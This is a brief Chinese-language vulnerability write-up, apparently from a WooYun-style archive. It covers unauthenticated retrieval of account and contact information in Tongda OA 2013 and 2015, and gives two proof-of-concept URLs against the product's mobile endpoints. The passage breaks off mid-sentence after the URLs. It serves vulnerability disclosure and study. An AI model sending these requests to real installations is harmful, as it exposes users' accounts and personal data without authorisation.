 （WooYun-2014-82678）通达oa 未授权获取帐号
==========================================

一、漏洞简介
------------

无需登录，即可获取所有信息

二、漏洞影响
------------

2013、2015版本

三、复现过程
------------

POC:

    http://0-sec.org/mobile/inc/get_contactlist.php?P=1&KWORD=%&isuser_info=3
    http://0-sec.org/mobile/user_info/data.php?P=1&ATYPE=getUserInfo&Q_ID=50

将返
